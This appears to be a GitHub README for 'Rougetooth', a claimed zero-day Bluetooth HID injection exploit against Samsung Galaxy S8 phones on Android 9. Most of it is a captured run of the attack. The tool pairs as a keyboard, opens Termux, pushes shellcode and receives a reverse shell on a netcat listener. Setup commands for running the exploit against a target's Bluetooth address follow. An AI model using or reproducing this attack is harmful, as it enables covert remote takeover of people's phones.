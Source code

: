 **Rougetooth Bluetooth HID injection attack**

*This is 0day as of Apr 21, 2023*

```
 [?] Samsung S8 android 9 HID controller exploit
 [?] Tested on Build PPR1.180610.001.G950USQU8DUJ1
 [?] In memory of Jason Reynolds / Gemani

 [*] Building reverse shell for 10.0.2.2:6543
 [*] Pairing to 08:AE:D6:6F:DD:F8
 [!] Paired 08:AE:D6:6F:DD:F8 to DC:53:60:6C:FC:B3
 [!] Go to another terminal and start a netcat listener on port  to handle the shell!
 [*] Registered HID profile
 [!] Ready, waiting for connection from phone
 [*] Control channel connected to 08:AE:D6:6F:DD:F8
 [*] Interrupt channel connected to 08:AE:D6:6F:DD:F8
 [!] Building shell...
 [*] Trying to attain control over device...
 [*] Sending back to home screen...
 [*] Trying to pull up finder...
 [*] Trying to find termux...
 [*] Pushing shellcode now...
 listening on [any] 6543 ...
 ^C
 [!] Trying again...
 listening on [any] 6543 ...
 connect to [10.0.2.2] from nerkon [10.0.2.5] 51818
 ~ $ ls -al
 ls -al
 total 16
 drwx------ 3 u0_a466 u0_a466 4096 Apr 20 21:15 .
 drwxrwx--x 4 u0_a466 u0_a466 4096 Apr 20 21:12 ..
 -rw------- 1 u0_a466 u0_a466 1334 Apr 21 23:52 .bash_history
 drwx------ 2 u0_a466 u0_a466 4096 Apr 20 21:12 .termux
 ~ $ uname -a; id
 uname -a; id
 Linux localhost 4.4.153-17214672 #2 SMP PREEMPT Thu Oct 21 19:08:15 KST 2021 aarch64 Android
 uid=10466(u0_a466) gid=10466(u0_a466) groups=10466(u0_a466),3003(inet),9997(everybody),20466(u0_a466_cache),50466(all_a466)
 ~ $
```


*setup*

Need to run `sudo systemctl stop bluetooth`, then run: `bluetoothd -P input`.

Now pair the device, and: `sudo ./run.sh [phone bt mac] [local ip addr]`.  Now on the phone, tap on the computer's controller alias in the bluetooth screen, and the exploit should proceed.

With a little luck, you'll see a shell from the phone pop up in netcat within about a minute.

**Tested on:**

*linux kernel 6.1.12, bluetoothd 5.66, python libraries: python-xlib 0.27, dbus-python 1.2.16*

*Samsung Galaxy S8 running android 9, termux installed.*

Have fun, and be safe!

 
